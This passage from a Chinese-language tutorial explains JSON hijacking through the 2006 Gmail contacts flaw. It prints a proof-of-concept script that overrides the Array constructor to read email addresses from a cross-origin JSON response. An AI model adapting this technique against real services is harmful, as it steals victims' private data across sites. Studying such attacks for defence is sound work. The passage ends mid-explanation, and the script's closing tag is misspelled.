 JSON 劫持是一种特殊的 CSRF 攻击方式，本质上也是未对请求来源做有效校验导致的，它主要是用来窃取服务器返回的敏感信息。

实现 JSON 劫持主要有两种攻击方式：覆写数据构造器和执行回调函数。

#### 覆写数据构造器

若服务端返回的 JSON 数据中包含一个序列化数组，那攻击者就可以重定义数组构造器，以实现 JSON 数据的访问。比如 2006 年的 Gmail 就曾出现过 JSON 劫持联系人列表的漏洞，漏洞 CGI 位于：

```java
http://mail.google.com/mail/?_url_scrubbed_
```

它会返回联系人列表的 JSON 数据。

```json
[["ct","Your Name","foo@gmail.com"], ["ct","Another Name","bar@gmail.com"] ]
```

因此，可通过覆盖数组构造器来读取 JSON 数据。

```xml
<script>
//在网页添加一个 table 表去显示劫持到的联系人信息
var table = document.createElement('table');
table.id = 'content';
table.cellPadding = 3;
table.cellSpacing = 1;
table.border = 0;
// 重新定义 Array 构造器
function Array() {
  var obj = this;
  var ind = 0;
  var getNext;

  getNext = function(x) {
    obj[ind++] setter = getNext;  // 将数组元素的 setter 定义为 getNext 函数
    if(x) {
      var str = x.toString();  // 获取 JSON 数据并转换成字符串
      if ((str != 'ct')&&(typeof x != 'object')&&(str.match(/@/))) {
        var row = table.insertRow(-1); // 指定行尾部
        var td = row.insertCell(-1);  // 指定列尾部
        td.innerHTML = str;  // 插入到表格中
      }
    }
  };
  this[ind++] setter = getNext;
}
function readGMail() {
  document.body.appendChild(table);
}
</scirpt>
<script src="http://mail.google.com/mail/?_url_scrubbed_"></script>
```

从以上代码中我们可以总结整个攻击流程：
